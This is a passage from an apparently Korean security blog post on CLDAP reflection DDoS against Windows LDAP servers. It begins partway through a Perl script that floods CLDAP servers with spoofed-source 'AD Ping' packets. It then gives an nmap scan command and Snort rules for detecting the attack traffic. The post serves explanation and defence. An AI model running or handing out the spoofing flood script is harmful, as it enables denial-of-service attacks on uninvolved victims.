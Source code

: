 ```perl
$query    .= "\x00\x30\x84\x00\x00\x00\x0a\x04\x08\x4e";
$query    .= "\x65\x74\x6c\x6f\x67\x6f\x6e";

my $sock =  new Net::RawIP({ udp => {} }) or die;
print "[ Sending CLDAP \"AD Ping\" packets..\n";
while () {
                select(undef, undef, undef, 0.40);         # Sleep 400 milliseconds
                $sock->set({  ip =>  { saddr  => $target, daddr => $cldap},
                             udp =>  { source => 31337,   dest  => $port, data => $query} });
                $sock->send;
}
```

혹은 간단히 `Nmap`의 `ldap-rootdse` 스크립트를 이용해서도 해당 취약점에 대한 스캔을 진행해 볼 수 있다고 한다.
```
nmap -Pn -sSU 389,636 --script ldap-rootdse <target_ip>
```

필자는 `nmap`을 이용하여 취약한 서버에 대한 스캔을 해 보았다.

<script id="asciicast-290796" src="https://asciinema.org/a/290796.js" async></script>

NTP Monlist 공격과 비슷하게 서버의 구성정보를 모두 리턴하는 것을 볼 수 있다.


#### 공격 탐지/방어를 위한 Snort 정책

가장 중요한 것은 불필요한 포트를 외부에 오픈하지 않는 것이다. CLDAP의 경우 외부접근이 필요한 서비스로 보이지 않으므로 반드시 내부망에서만 사용하는것이 바람직 할 것이다. 아래는 `공격을 유발하는 패킷(Request)의 패턴`과 `응답되어 오는 패킷(Response)의 패턴`을 정리해보았다.

![searchRequst_pattern]({{site.url}}/static/images/2019/12/Screen Shot 2019-12-29 at 10.22.25 PM.png)
*CLDAP DRDoS Request 패킷 패턴(searchRequest)*

![searchResRentry_pattern]({{site.url}}/static/images/2019/12/Screen Shot 2019-12-29 at 10.24.51 PM.png)
*CLDAP DRDoS Response 패킷 패턴(searchResEntry)*

![searchResDone_pattern]({{site.url}}/static/images/2019/12/Screen Shot 2019-12-29 at 10.24.01 PM.png)
*CLDAP DRDoS Response 패킷 패턴(searchResDone)*


```
1. CLDAP DRDoS Resquest 패킷 탐지/방어 (searchRequest)
alert udp any any -> any 389,636 (content:"|3025020101632004000a01000a0100020100020100010100870b6f726a656374636c61737330|")

2. CLDAP DRDoS Response 패킷 탐지/방어 (searchResEntry)
alert udp any 389,636 -> any any (content:"|648400000ba40400308400000b9c|";)

3. CLDAP DRDoS Response 패킷 탐지/방어 (searchResDone)
alert udp any 389,636 -> any any (content:"|3084000000100201016584000000070a010004000400|";)
```

### Reference
- [CLDAP 프로토콜을 이용한 Reflection DDoS](https://blog.alyac.co.kr/1857){:target="_blank"}
- [LDAP - 위키백과, 우리 모두의 백과사전](https://ko.wikipedia.org/wiki/LDAP){:target="_blank"}
- [Microsoft Windows Server 2008/2012 - LDAP RootDSE Netlogon Denial of Service](https://www.exploit-db.com/exploits/40703){:target="_blank"}
- [RootDSE (AD Schema) - Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/adschema/rootdse){:target="_blank"}

